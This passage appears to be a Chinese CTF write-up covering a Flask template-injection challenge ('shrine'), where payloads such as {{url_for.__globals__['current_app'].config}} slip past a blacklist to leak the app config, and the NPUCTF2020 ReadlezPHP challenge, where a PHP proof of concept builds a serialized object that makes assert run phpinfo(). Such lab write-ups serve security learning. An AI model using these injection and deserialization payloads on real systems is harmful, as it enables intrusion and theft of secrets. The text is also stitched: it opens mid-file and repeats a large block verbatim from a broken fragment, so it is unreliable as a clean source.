if __name__ == '__main__':

app.run(debug=True) 
```

根据源码就有了大致的思路就是在shrine目录下利用ssti漏洞，首先利用shrink路由测试一下行不行。试一个经典{{7*7}}，发现可以

接下来就可以考虑在shrine下直接{{config}}即可查看所有app.config内容，但是这题设了黑名单[‘config’,‘self’]并且过滤了括号，若不存在黑名单，可以使用`{{self.__dict__}}`读取。幸亏python还有一个函数叫做url_for，**其作用是url是用于构建指定函数的URL**，在配合globals()，**该函数会以字典类型返回当前位置的全部全局变量**。这样也可以实现查看的效果

payload:

```
/shrine/{{url_for.__globals__}} 
```



current_app’: <Flask ‘app’>这里的current就是指的当前的app，这样我们只需要能查看到这个的config不就可以看到flag了，那么构造payload

```
/shrine/{{url_for.__globals__['current_app'].config}} 
```

得到flag

也可以利用**get_flashed_messages() 方法**

## 参考博客

[shrink模板总结](https://blog.csdn.net/houyanhua1/article/details/85470175?utm_medium=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control&dist_request_id=1332048.326.16193521075758381&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control)

[python flask 路由](https://blog.csdn.net/weixin_44923175/article/details/89339607?ops_request_misc=&request_id=&biz_id=102&utm_term=python%20flask%E8%B7%AF%E7%94%B1&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-89339607.pc_search_result_hbase_insert)

# [NPUCTF2020]ReadlezPHP

## 知识点

php反序列化

assert（）

time（）

## 题解

打开页面 说是西瓜大计时器

没有更多信息了

打开源码 发现里面有 time.php?source

访问

```
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]); 
```

哈哈哈 到现在这个阶段，这真是灰常简单的一个反序列化了

由于没有文件包含，我们构造反序列化访问访问phpinfo（）试图寻找 flag

这里放下poc：

```
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;
echo serialize($c);
?> 
```

获得序列化字符串

```
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";} 
```

传入data变量。

这样我们就进入了phpinfo

寻找flag 哎 找到了 哎 就是玩

n还有一个函数叫做url_for，**其作用是url是用于构建指定函数的URL**，在配合globals()，**该函数会以字典类型返回当前位置的全部全局变量**。这样也可以实现查看的效果

payload:

```
/shrine/{{url_for.__globals__}} 
```


current_app’: <Flask ‘app’>这里的current就是指的当前的app，这样我们只需要能查看到这个的config不就可以看到flag了，那么构造payload

```
/shrine/{{url_for.__globals__['current_app'].config}} 
```

得到flag

也可以利用**get_flashed_messages() 方法**

## 参考博客

[shrink模板总结](https://blog.csdn.net/houyanhua1/article/details/85470175?utm_medium=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control&dist_request_id=1332048.326.16193521075758381&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control)

[python flask 路由](https://blog.csdn.net/weixin_44923175/article/details/89339607?ops_request_misc=&request_id=&biz_id=102&utm_term=python%20flask%E8%B7%AF%E7%94%B1&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-89339607.pc_search_result_hbase_insert)

# [NPUCTF2020]ReadlezPHP

## 知识点

php反序列化

assert（）

time（）

## 题解

打开页面 说是西瓜大计时器

没有更多信息了

打开源码 发现里面有 time.php?source

访问

```
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]); 
```

哈哈哈 到现在这个阶段，这真是灰常简单的一个反序列化了

由于没有文件包含，我们构造反序列化访问访问phpinfo（）试图寻找 flag

这里放下poc：

```
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;
echo serialize($c);
?> 
```

获得序列化字符串

```
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";} 
```

传入data变量。

这样我们就进入了phpinfo

寻找flag 哎 找到了 哎 就是玩